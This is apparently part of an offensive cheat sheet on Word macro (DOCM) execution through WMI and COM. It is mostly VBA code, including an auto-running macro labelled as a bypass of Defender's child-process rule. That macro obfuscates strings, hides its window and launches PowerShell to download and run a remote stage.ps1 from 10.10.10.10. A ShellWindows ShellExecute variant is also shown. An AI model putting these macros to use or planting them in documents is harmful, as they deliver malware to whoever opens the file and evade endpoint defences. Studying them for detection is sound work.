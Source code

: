### DOCM - WMI COM functions

Basic WMI exec (detected by Defender) : `r = GetObject("winmgmts:\\.\root\cimv2:Win32_Process").Create("calc.exe", null, null, intProcessID)`

```vb
Sub wmi_exec()
    strComputer = "."
    Set objWMIService = GetObject("winmgmts:\\" & strComputer & "\root\cimv2")
    Set objStartUp = objWMIService.Get("Win32_ProcessStartup")
    Set objProc = objWMIService.Get("Win32_Process")
    Set procStartConfig = objStartUp.SpawnInstance_
    procStartConfig.ShowWindow = 1
    objProc.Create "powershell.exe", Null, procStartConfig, intProcessID
End Sub
```

* https://gist.github.com/infosecn1nja/24a733c5b3f0e5a8b6f0ca2cf75967e3
* https://labs.inquest.net/dfi/sha256/f4266788d4d1bec6aac502ddab4f7088a9840c84007efd90c5be7ecaec0ed0c2

```vb
Sub ASR_bypass_create_child_process_rule5()
    Const HIDDEN_WINDOW = 0
    strComputer = "."
    Set objWMIService = GetObject("win" & "mgmts" & ":\\" & strComputer & "\root" & "\cimv2")
    Set objStartup = objWMIService.Get("Win32_" & "Process" & "Startup")
    Set objConfig = objStartup.SpawnInstance_
    objConfig.ShowWindow = HIDDEN_WINDOW
    Set objProcess = GetObject("winmgmts:\\" & strComputer & "\root" & "\cimv2" & ":Win32_" & "Process")
    objProcess.Create "cmd.exe /c powershell.exe IEX ( IWR -uri 'http://10.10.10.10/stage.ps1')", Null, objConfig, intProcessID
End Sub

Sub AutoExec()
    ASR_bypass_create_child_process_rule5
End Sub

Sub AutoOpen()
    ASR_bypass_create_child_process_rule5
End Sub
```

```vb
Const ShellWindows = "{9BA05972-F6A8-11CF-A442-00A0C90A8F39}"
Set SW = GetObject("new:" & ShellWindows).Item()
SW.Document.Application.ShellExecute "cmd.exe", "/c powershell.exe", "C:\Windows\System32", Null, 0
```

### DOCM/XLM - Macro Pack - Macro and DDE

> Only the community version is available online.
